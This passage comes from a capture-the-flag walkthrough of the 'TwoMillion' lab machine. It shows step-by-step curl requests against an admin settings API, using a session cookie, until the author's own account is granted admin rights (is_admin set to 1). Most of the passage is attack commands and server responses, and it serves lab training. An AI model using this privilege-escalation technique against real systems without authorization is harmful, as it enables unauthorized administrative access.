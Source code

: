 Interestingly enough, this time we do not get an `Unauthorized` error, but instead the API replies with `Invalid content type` . It is often for APIs to use JSON for sending and receiving data, and we already
know that the API replies in JSON, so lets set the `Content-Type` header to `JSON` and try again.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

We now get a new error message, specifically that there is a parameter missing called `email` . Let's supply the email for our own user in JSON format.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb"}' | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

We get another error for a missing parameter called `is_admin` . Let's add this as well.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": true}' | jq
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Since we set the parameter to `true` , an error message informs us that this variable needs a value of 0 or 1. Let's set it to 1.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": '1'}' | jq
{
  "id": 13,
  "username": "test",
  "is_admin": 1
}
```

The above command seems to have been successful as our user information is returned and the `is_admin` variable is set to 1. We can further verify this by accessing the `/admin/auth` endpoint that we saw earlier.
